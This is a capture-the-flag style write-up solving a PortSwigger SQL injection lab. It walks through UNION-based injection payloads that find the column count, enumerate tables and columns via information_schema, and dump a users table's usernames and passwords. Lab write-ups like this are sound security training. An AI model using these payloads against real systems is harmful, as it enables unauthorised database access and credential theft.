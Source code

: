 ```yaml
---
title: PortSwigger - SQLi 9 - Listing contents on non-Oracle DB
date: 2023-05-16
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

Find the number of columns:

````sql
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````sql
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc'--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````sql
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM information_schema.columns--
````

179 tables are returned... But after sorting those containing `user` one stands out: `users_ijvpsp`.

Let's print the differents columns of the table:

````sql
<website>/filter?category=Gifts' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_ijvpsp'--
````

We obtain 2 columns: `username_gifugn` and `password_zjiaqz`.

Time to show the passwords!

````sql
/filter?category=Pets' UNION SELECT username_gifugn, password_zjiaqz FROM users_ijvpsp--
````

Password obtained!
